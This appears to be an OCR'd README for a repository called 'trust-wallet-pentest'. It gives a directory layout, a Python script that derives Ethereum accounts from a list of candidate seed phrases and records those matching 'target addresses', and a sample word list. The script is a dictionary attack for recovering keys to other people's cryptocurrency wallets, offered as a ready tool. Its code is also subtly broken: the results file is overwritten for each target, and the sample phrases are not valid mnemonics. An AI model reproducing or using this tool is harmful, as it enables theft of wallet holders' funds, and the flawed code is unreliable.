# README.md

trust-wallet-pentest/
│
├── addresses/
│   ├── target_addresses.txt
│   └── generated_addresses.txt
│
├── seed_phrases/
│   ├── seed_list.txt
│   └── cracked_seeds.txt
│
├── scripts/
│   ├── address_generator.py
│   ├── seed_cracker.py
│   └── utils.py
│
├── results/
│   ├── found_seeds.txt
│   └── report.txt
│
├── README.md
└── requirements.txt
from eth_account import Account
from web3 import Web3

def crack_seed(target_address):
    Account.enable_unaudited_hdwallet_features()
    with open("seed_phrases/seed_list.txt", "r") as f:
        seeds = f.readlines()

    found_seeds = []
    for seed in seeds:
        seed = seed.strip()
        account = Account.from_mnemonic(seed)
        if account.address == target_address:
            found_seeds.append(seed)

    with open("results/found_seeds.txt", "w") as f:
        for seed in found_seeds:
            f.write(f"{seed}\n")

def main():
    with open("addresses/target_addresses.txt", "r") as f:
        target_addresses = f.readlines()

    for address in target_addresses:
        address = address.strip()
        crack_seed(address)

if __name__ == "__main__":
    main()apple banana cherry dog elephant frog grape horse ice jelly kiwi
orange pear queen rabbit snake tiger umbrella violin whale xray yellow
